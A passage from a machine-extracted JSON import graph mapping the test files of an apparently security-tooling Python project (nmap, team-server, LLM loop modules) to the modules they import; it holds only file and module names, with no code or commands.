"tests/test_lazy_runner.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_skills"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "cli.commands.exploit_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "core.process"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "cli.commands.lazyops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "cli.commands.session_ops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.command_executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.command_executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.command_executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.command_executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.command_executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.tools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "cli.commands.lazyloop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_streaming.py", "target": "modules.agent_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_worker_safety.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_backend.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_backend.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_backend.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui.services.teamserver_backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_graph_widget.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_graph_widget.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_graph_widget.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_graph_widget.py", "target": "PySide6.QtGui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_graph_widget.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_graph_widget.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_graph_widget.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_graph_widget.py", "target": "lazygui.widgets.graph_view"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_models.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_models.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_models.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazygui_models.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "cli.lazynmap_post"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_post.py", "target": "cli.recon_plan"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_sudo_branches.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_sudo_branches.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_sudo_branches.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazynmap_sudo_branches.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_legacy_shims.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_legacy_shims.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_legacy_shims.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lesson_ingestor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lesson_ingestor.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lesson_ingestor.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lesson_ingestor.py", "target": "modules.lesson_ingestor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lint_quality.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lint_quality.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lint_quality.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lint_quality.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lint_quality.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_live_surface.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_live_surface.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_live_surface.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_live_surface.py", "target": "modules.live_surface"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules.llm_adapter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules.llm_prompts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules.llm_prompts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_budget.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_contract.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_contract.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_contract.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_legacy_isolation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_legacy_isolation.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_legacy_isolation.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_legacy_isolation.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_prompts.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_prompts.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_prompts.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_prompts.py", "target": "modules.llm_prompts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_prompts.py", "target": "modules.llm_prompts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_llm_prompts.py", "target": "modules.llm_prompts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_logging_config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_logging_config.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_logging_config.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_logging_config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_logging_config.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_logging_config.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_logging_config.py", "target": "logging.handlers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_logging_config.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "builtins"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "cli.commands.mcp_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_broadcast.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_broadcast.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_broadcast.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_cold_overview.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_cold_overview.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_cold_overview.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_cold_overview.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_cold_overview.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_cold_overview.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_cold_overview.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_cold_overview.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_force_graph.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_force_graph.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_force_graph.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_guard_audit.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_guard_audit.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_guard_audit.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_guard_audit.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_guard_audit.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_guard_audit.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_intent_delete.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_intent_delete.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": 